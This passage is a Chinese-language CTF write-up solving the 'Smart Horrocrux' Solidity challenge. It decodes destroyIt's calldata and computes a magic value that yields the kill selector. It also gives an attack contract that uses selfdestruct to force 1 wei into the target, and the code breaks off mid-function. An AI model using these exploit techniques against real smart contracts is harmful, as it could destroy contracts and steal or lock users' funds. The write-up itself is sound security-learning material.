 <hr />

# 5. Smart Horrocrux

原来`Horrocrux`是`魂器`的意思，学习到了。

切入点肯定在`destroyIt`里，我们对该函数的`callData`进行分析，假设输入`spell=111,magic=3`有`calldata`如下：

```
0x60c4a9f1 // selector
0000000000000000000000000000000000000000000000000000000000000040 // 0x0 string index
0000000000000000000000000000000000000000000000000000000000000003 // 0x20 magic
0000000000000000000000000000000000000000000000000000000000000003 // 0x40 string length
3131310000000000000000000000000000000000000000000000000000000000 // string value
```

```solidity
spellInBytes := mload(add(spell, 32))
```

以上读取的肯定是`string value` = `0x45746865724b6164616272610000000000000000000000000000000000000000` (ascii -> bytes) 所以value应该是`EtherKadabra`

而又需要`        (bytes4(bytes32(uint256(spellInBytes) - magic))) `恰好是`kill`(selector为0x41c0e1b5)（实际计算时应该是后面还需要补56个0）所以`magic=1674133761342824277929123818302714816965480662716616051558525647956333297664`

同时别忘了还需要将`invincible`设置为false。这需要合约只有1wei，只能通过自毁合约进行，所以我们也得写个合约。最后攻击合约如下：

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

interface ISmartHorrocrux {
    function destroyIt(string memory,uint256) external;
    function setInvincible() external;
}

contract Bomb {

    constructor() {

    }

    fallback() external payable {

    }

    function destroy(address victim) public{
        selfdestruct(payable(victim));
    }


}

contract SmartHorrocruxHacker {

    ISmartHorrocrux victim;

    constructor(address target) payable{
        victim = ISmartHorrocrux(target);
    }


    function attack(string memory spell, uint256 magic) public{
        Bomb bomb = new Bomb();
        payable(address(bomb)).transfer(1);
        payable(address(victim)).call("");
```